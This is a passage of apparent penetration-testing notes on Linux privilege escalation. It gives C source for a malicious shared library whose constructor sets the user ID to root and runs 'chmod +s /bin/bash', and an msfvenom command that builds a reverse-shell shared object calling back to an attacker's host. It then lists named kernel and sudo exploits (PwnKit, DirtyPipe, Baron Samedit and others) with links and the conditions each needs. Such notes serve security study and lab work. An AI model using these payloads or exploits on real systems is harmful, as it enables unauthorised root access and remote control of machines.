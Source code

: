```
//gcc -shared -o libcustom.so -fPIC libcustom.c  
  
#include <stdio.h>  
#include <unistd.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
static void inject() __attribute__((constructor));  
  
void inject(){  
setuid(0);  
setgid(0);  
printf("I'm the bad library\n");  
system("chmod +s /bin/bash");  
}
```

https://vk9-sec.com/privilege-escalation-suid-sgid-executables-shared-object-injection/?source=post_page-----b362f337365c--------------------------------

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example?source=post_page-----b362f337365c--------------------------------

another option is to compile revers shell to shared object
```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=<IP> LPORT=<PORT>
```
#### Exploiting Kernel Vulnerabilities

- looking for vulnerabilities in the system
- exploit services that running on the machine localhost
- binary file versions
- run `suggester.sh`  to see fit exploit

tools:
- metasploit
- searchsploit
- msvenom
- exploitDB

vulnerabilities for example:

- CVE-2021-3156 - sudo Baron Samedit: https://github.com/asepsaepdin/CVE-2021-3156
	- need make command on the target
	- Sudo before 1.9.5p2
- PwnKit: https://github.com/joeammond/CVE-2021-4034
	- need python install on the target
	- another exploit need gcc https://github.com/berdav/CVE-2021-4034
		- example of use: https://medium.com/@thetraphacker/proving-grounds-pg-zenphoto-writeup-8cd8218d9b26
		- kernel 1.8.23 
- JDWP exploitation script https://github.com/IOActive/jdwp-shellifier
- CVE-2022-0847-DirtyPipe-Exploits: https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
	- need gcc install on the target
- GNU Screen 4.5.0 - Local Privilege Escalation exploit https://www.exploit-db.com/exploits/41154
	- need gcc install on the target
- kernel exploit: https://www.exploit-db.com/exploits/44298
	- need gcc / compile locally
	- kernel version: 4.4.0-116-generic
- RDS protocol https://www.exploit-db.com/exploits/15285
